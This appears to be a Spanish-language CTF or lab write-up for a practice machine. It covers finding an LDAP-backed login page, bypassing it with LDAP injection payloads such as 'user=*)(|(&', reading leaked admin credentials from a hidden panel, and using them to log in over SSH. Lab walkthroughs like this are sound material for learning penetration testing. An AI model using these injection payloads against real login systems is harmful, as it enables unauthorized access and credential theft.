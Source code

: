 Ninguna funciona y es porque en el codigo fuente indica que se esta usando **LDAP**
```bash
http://info.404-not-found.hl/index.html
```

Indica que usa **LDAP**
```bash
<!-- I believe this login works with LDAP -->
```

Ahora que sabemos que por detras esta **LDAP** de este recurso probaremos inyecciones para el panel de login
```bash
https://book.hacktricks.wiki/en/pentesting-web/ldap-injection.html?highlight=ldap%20injection#ldap-injection-2
```

## Explotacion de Vulnerabilidades
**LDAPInjection** probadas:
```bash
username: *
password: *

username: *)(&
password: *)(&
```

###### Evacion Panel Autentificacion:
```bash
user=*)(|(&
pass=pwd)
--> (&(user=*)(|(&)(pass=pwd))
```

Ahora estamos en el panel de administracion donde se puede gestionar el sistema:
```bash
http://info.404-not-found.hl/admin_panel_very_secret_impossibol.html
```

### Credenciales Filtradas
```bash
## Credenciales de Admin

Nombre de usuario: `404-page`
Contraseña: `not-found-page-secret`
```
---
### Vector de Ataque
Ahora que tenemos las credenciales filtradas y que sabemos que esta expuesto el servicio **ssh** nos intentaremos loguear por este servicio con estas credenciales.

### Intrusion
```bash
# Reverse shell o acceso inicial
ssh-keygen -R 172.17.0.2 && ssh 404-page@172.17.0.2
```

---